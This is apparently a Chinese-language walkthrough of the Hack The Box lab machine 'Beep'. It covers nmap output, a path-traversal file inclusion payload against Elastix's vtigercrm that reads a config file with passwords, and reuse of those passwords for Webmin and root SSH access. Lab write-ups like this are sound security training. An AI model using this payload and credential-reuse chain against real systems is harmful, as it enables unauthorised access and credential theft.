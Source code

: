 ![image-20220412232633253](https://raw.githubusercontent.com/huamang/image/master/image-20220412232633253.png)

nmap扫描端口号，发现开启了很多端口

```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://localhost/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: PIPELINING TOP RESP-CODES IMPLEMENTATION(Cyrus POP3 server v2) USER UIDL AUTH-RESP-CODE STLS EXPIRE(NEVER) LOGIN-DELAY(0) APOP
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: STARTTLS BINARY MULTIAPPEND X-NETSCAPE OK CHILDREN ACL LISTEXT UIDPLUS IMAP4rev1 ATOMIC URLAUTHA0001 LITERAL+ Completed RIGHTS=kxte NO LIST-SUBSCRIBED NAMESPACE ID SORT=MODSEQ QUOTA ANNOTATEMORE CONDSTORE CATENATE THREAD=REFERENCES RENAME MAILBOX-REFERRALS UNSELECT IMAP4 SORT THREAD=ORDEREDSUBJECT IDLE
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2022-04-12T17:13:37+00:00; +1s from scanner time.
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

主要关注了这几个：80、443、3306、10000

首先看80端口，和443是同一个，是一个这样的登录界面，Elastix

![image-20220413012325164](https://raw.githubusercontent.com/huamang/image/master/image-20220413012325164.png)

10000端口是这个服务，webmin

![image-20220413012532852](https://raw.githubusercontent.com/huamang/image/master/image-20220413012532852.png)

先看第一个，这里有一个admin路由

![image-20220413113255517](https://raw.githubusercontent.com/huamang/image/master/image-20220413113255517.png)

看一下这个系统有什么漏洞，关注到他这里有个文件包含漏洞

![image-20220413113452822](https://raw.githubusercontent.com/huamang/image/master/image-20220413113452822.png)

使用payload，读取到配置文件

![image-20220413115955305](../../../Library/Application%20Support/typora-user-images/image-20220413115955305.png)

```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

![image-20220413115857924](https://raw.githubusercontent.com/huamang/image/master/image-20220413115857924.png)

找到如下的比较敏感的信息

```php
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE

...

#FOPPASSWORD=passw0rd
FOPPASSWORD=jEhdIekWmdjE

...

# This is the default admin name used to allow an administrator to login to ARI bypassing all security.
# Change this to whatever you want, don't forget to change the ARI_ADMIN_PASSWORD as well
ARI_ADMIN_USERNAME=admin

# This is the default admin password to allow an administrator to login to ARI bypassing all security.
# Change this to a secure password.
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
```

测试到，后台密码为admin:jEhdIekWmdjE

![image-20220413192258084](https://raw.githubusercontent.com/huamang/image/master/image-20220413192258084.png)

# 解法1

再测试到，webmin的账号密码为：root:jEhdIekWmdjE

![image-20220413192557059](https://raw.githubusercontent.com/huamang/image/master/image-20220413192557059.png)

这里有很多模块，发现有个文件下载和上传的服务模块，尝试下载一个/etc/passwd

可以看到是成功下载到了的

![image-20220413193010203](https://raw.githubusercontent.com/huamang/image/master/image-20220413193010203.png)

最后一个用户是fanis，猜测user.txt在里面，直接下载，成功拿下

![image-20220413193158298](https://raw.githubusercontent.com/huamang/image/master/image-20220413193158298.png)

惊喜的发现竟然是root权限

![image-20220413193245728](https://raw.githubusercontent.com/huamang/image/master/image-20220413193245728.png)

# 解法2

![image-20220413194111839](https://raw.githubusercontent.com/huamang/image/master/image-20220413194111839.png)

然后ssh登录root用户

```
root@kali# ssh root@10.10.10.7
root@10.10.10.7's password:
Last login: Fri Aug 25 18:05:54 2017

Welcome to Elastix
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]#
```

# 解法3

通过443端口攻击

```
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution
```

这里看了网上文章，是可以打通的，可以看[这个文章](https://0xdf.gitlab.io/2021/02/23/htb-beep.html#rce-via-18650py-path-1)
